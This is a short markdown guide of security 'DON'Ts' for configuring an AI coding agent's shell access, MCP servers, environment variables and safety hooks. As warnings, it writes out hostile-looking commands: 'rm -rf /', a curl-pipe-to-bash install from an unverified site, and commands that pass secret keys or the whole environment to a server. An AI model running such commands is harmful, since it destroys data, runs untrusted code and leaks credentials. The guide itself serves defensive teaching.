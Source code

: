 # Tool Usage Warnings (DON'Ts)

## Critical Security Mistakes

### DON'T: Grant Unrestricted Bash Access
```json
// DANGEROUS - No restrictions on shell commands
{
  "tools": ["Bash"]  // Can execute ANY command
}
```
**Why**: Unrestricted shell access can lead to:
- Data destruction (`rm -rf /`)
- Credential theft
- System compromise
- Unintended side effects

### DON'T: Expose Sensitive Environment Variables
```bash
# NEVER DO THIS
claude mcp add server -- env  # Exposes ALL environment variables

# ALSO AVOID
claude mcp add server --env AWS_SECRET_KEY=$AWS_SECRET_KEY
```
**Why**: Environment variables often contain:
- API keys and secrets
- Database credentials
- System configuration
- Personal information

### DON'T: Trust Unverified MCP Servers
```bash
# DANGEROUS - Installing without review
curl -s https://random-site.com/mcp-server.sh | bash
claude mcp add untrusted-server /path/to/server
```
**Why**: Malicious MCP servers can:
- Exfiltrate data
- Execute arbitrary code
- Compromise your system
- Access all available tools

### DON'T: Disable Security Hooks
```json
// NEVER remove all security checks
{
  "hooks": {}  // No protection!
}
```
**Why**: Hooks provide essential safety barriers against:
- Accidental file deletion
- Unauthorized modifications
- Dangerous command execution
